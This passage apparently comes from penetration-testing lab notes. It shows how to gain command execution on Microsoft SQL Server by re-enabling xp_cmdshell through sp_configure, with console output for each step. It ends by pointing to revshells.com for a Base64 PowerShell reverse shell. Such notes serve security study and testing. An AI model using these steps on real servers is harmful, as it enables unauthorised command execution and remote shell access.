 ```sql
SELECT DB_NAME();
```

## # `xp_cmdshell` -

Running commands through MSSQL server using the `xp_cmdshell` stored procedure -

```sql
SQL (PublicUser  guest@master)> xp_cmdshell whoami
[-] ERROR(DC1): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

 You can reconfigure that with the [following four lines](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16) :

```sql
SQL> EXECUTE sp_configure 'show advanced options', 1
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> EXECUTE sp_configure 'xp_cmdshell', 1
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
```

Now it should work -

```sql
SQL> xp_cmdshell whoami
output

--------------------------------------------------------------------------------

scrm\sqlsvc

NULL
```

But you will still fail if the account doesn’t have permission :

```sql
SQL (PublicUser  guest@master)> EXECUTE sp_configure 'show advanced options', 1
[-] ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
```

## # `Reverse Shell` -

 Visit [revshells.com](https://www.revshells.com/) and update it with your IP and port. Filter by windows and select PowerShell #3 (Base64). Base64 one because you don’t have to worry about bad characters in the MSSQL command line.
